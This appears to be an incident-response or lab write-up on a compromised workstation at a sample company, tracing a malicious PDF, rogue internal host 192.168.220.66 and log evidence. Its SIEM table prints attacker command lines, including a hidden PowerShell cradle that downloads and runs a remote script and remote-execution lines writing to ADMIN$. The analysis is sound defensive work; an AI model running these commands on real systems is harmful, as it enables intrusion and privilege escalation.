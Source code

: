 From the logs, PowerShell was invoked from `cmd.exe` to execute the contents of a remotely hosted script. The IP address of the remote host was an internal address, `192.168.220.66`, indicating that an unauthorized entity was already present within the internal network. 

![](https://i.imgur.com/1KD12AR.png)

The earliest signs of malicious command execution point to `WKST01.samplecorp.com` being compromised, likely due to malicious email attachments with a suspicious file named `cv.pdf` for the following reasons:

- The user accessed the email client `Mozilla Thunderbird`
- A suspicious file `cv.pdf` was opened with Adobe Reader 10.0, which is outdated and vulnerable to security flaws.
- Malicious commands were observed immediately following these events. 

![](https://i.imgur.com/l3Q8ZzE.png)

Additionally, `cmd.exe` and `powershell.exe` were spawned from `wmiprvse.exe`. 

![](https://i.imgur.com/AqKBd58.png)

![](https://i.imgur.com/kBil3OM.png)

As already mentioned, the unauthorized entity then executed specific PowerShell commands. 

![](https://i.imgur.com/Cf6R5Nv.png)
#### Brief Analysis of `192.168.220.66`

From the logs, we identified four hosts on the network segment with the corresponding IP addresses and hostnames. The host `192.168.220.66`, previously observed in the logs of `WKST01.samplecorp.com`, confirms the presence of an unauthorized entity in the internal network.

| IP              | Hostname              |
| --------------- | --------------------- |
| 192.168.220.20  | DC01.samplecorp.com   |
| 192.168.220.200 | WKST01.samplecorp.com |
| 192.168.220.101 | HR01.samplecorp.com   |
| 192.168.220.202 | ENG01.sampecorp.com   |
The below table is the result of a SIEM query that aimed to identify all instances of command execution initiated from `192.168.220.66`, on data from `WKST01.samplecorp.com.

|event_data.CommandLine.keyword: Descending|beat.hostname.keyword: Descending|Count|
|---|---|---|
|`cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|5|
|`cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|4|
|`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX`|WKST01|2|
|`whoami`|WKST01|1|
|`...`|...|...|
|`powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m`|HR01|1|
